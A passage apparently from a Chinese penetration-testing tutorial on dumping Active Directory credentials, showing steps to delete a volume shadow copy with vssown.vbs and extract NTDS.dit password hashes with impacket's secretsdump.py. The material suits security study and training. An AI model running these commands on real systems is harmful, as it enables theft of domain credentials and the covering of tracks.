 ```bash
dir c:\vssown\
```

[![](assets/1706090550-baa7d7d109a1347dc2fc30eee6aa1c54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095827-10890d5c-ba5c-1.png)  
Step 6：删除影卷拷贝

```bash
cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}
```

[![](assets/1706090550-60ca9fdf1db04abec3d8190c1d76466a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095845-1bb8ffca-ba5c-1.png)  
Step 7：之后使用 impacket 导出 Hash

```bash
./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL
```

[![](assets/1706090550-6e3568660f4a00ec71ebbabc280fdd3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095908-2929720c-ba5c-1.png)
